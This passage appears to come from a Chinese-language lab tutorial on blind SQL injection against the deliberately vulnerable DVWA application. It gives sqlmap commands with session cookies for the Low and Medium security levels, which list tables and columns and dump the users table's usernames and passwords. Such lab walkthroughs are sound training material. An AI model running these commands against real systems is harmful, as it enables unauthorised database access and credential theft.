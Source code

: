 ![10](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124703.png)



**列出指定数据库中的所有数据表**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=ldopum46srn0q78qsnpkhnbgt4" --batch -D dvwa –tables
```

![11](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124706.png)



**列出指定数据表中的所有字段（列）**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=ldopum46srn0q78qsnpkhnbgt4" --batch -D dvwa -T users --columns
```



![12](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124707.png)



**导出指定数据表中的列字段进行保存**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low;PHPSESSID=ldopum46srn0q78qsnpkhnbgt4" --batch -D dvwa -T users -C “user,password” –dump
```



![13](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124709.png)

#### Medium

Low等级提交的数据是通过GET请求方式，直接在浏览器url中传递参数；而Medium等级，所提交的User ID数据是通过POST请求方式，参数是在POST请求体中传递。此时，构造SQLMap操作命令，需要将url和data分成两部分分别填写，同时需要更新Cookie信息的取值

构造命令：

```
 sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --cookie="security=medium;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch
```



![14](https://luren-1310495826.cos.ap-beijing.myqcloud.com/blog/DVWA-%E7%9B%B2%E6%B3%A8/20220525124712.png)



**查询所有数据库**

```
sqlmap -u "192.168.224.135/dvwa/vulnerabilities/sqli_blind/"  --data="id=1&Submit=Submit" --cookie="security=medium;PHPSESSID=dfqbsm7j4sopvt6p28jikahfj5" --batch --dbs
```
